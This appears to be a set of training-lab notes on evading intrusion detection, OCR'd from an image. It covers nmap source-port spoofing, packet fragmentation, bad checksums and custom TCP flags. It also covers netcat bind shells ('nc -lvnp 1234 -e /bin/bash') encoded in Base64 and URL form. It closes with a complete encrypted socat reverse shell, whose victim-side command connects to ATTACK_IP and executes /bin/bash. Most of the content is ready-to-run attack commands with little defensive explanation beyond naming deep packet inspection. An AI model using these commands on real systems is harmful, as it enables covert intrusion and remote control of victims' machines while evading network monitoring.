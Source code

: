### Tools: nmap, netcat/socat

# EVASION VIA PROTOCOL MANIPULATION

### 1) Relying on a different protocol

### 2) Manipulating (source) TCP/UDP Port

### 3) Using session splicing (IP Packet fragmentation)

### 4) Sending invalid packets

## 1st technique example

#### 1) nc -lvnp 25 (Gives the imp[ression that it is a usual TCP connection with an SMTP server)

#### Counter: Deep Packet Inspection (DPI)

#### 2) nc -ulvnp 162 (UDP Connection)

#### Counter: DPI

# 2nd Technique example

#### 1) nmap -sS -Pn -g 80 -F TARGET_IP (HTTP Server spoof)

#### 2) nmap -sU -Pn -g 53 -F TARGET_IP (DNS Server spoof)

#### 3) Can be used with netcat as well

# 3rd Technique example

### nmap options: 

#### -f = Set the data in IP packet to 8 bytes

#### -ff = To limit the data in the IP packet to 16 bytes at most

#### --mtu SIZE = Custom data size (Multiple of 8)

# 4th Technique example

### nmap options:

#### --badsum

#### --scanflags: URG ACK PSH RST SYN FIN (Custom TCP flag combinations)

# EVASION VIA PAYLOAD MANIPULATION

### 1) Obfuscating and encoding the payload

### 2) Encrypting the communication channel

### 3) Modifying the shellcode

# 1st Technique example

### 1) Encode to Base64 format

#### 1: cat input.txt

#### 2: nc -lvnp 1234 -e /bin/bash

#### 3: base64 input.txt

### 2) URL Encoding

#### urlencode nc -lvnp 1234 -e /bin/bash

### 3) Escaped Unicode

### Tool: Cyberchef

#### 1) Search "Escape Unicode Characters"

#### 2) Drag to recipe

#### 3) Checkmark "encode all chars with a prefix of \u"

#### 4) Checkmark "Uppercase hex with a padding of 4"

## 2nd Technique example

### Encrypted reverse shell steps:

### 1) Create the key

### 2) Listen on the attacker's machine

### 3) Connect to the attacker's machine

#### 1) openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.example.gr/O=example COM/C=GR' -nodes -keyout gr-reverse.key -out gr-reverse.crt

#### 2) cat gr-reverse.key gr-reverse.crt > gr-reverse.pem

#### 3) socat -d -d OPENSSL-LISTEN:4443,cert=gr-reverse.pem,verify=0,fork STDOUT

#### 4) Victim: socat OPENSSL:ATTACK_IP:4443,verify=0 EXEC:/bin/bash


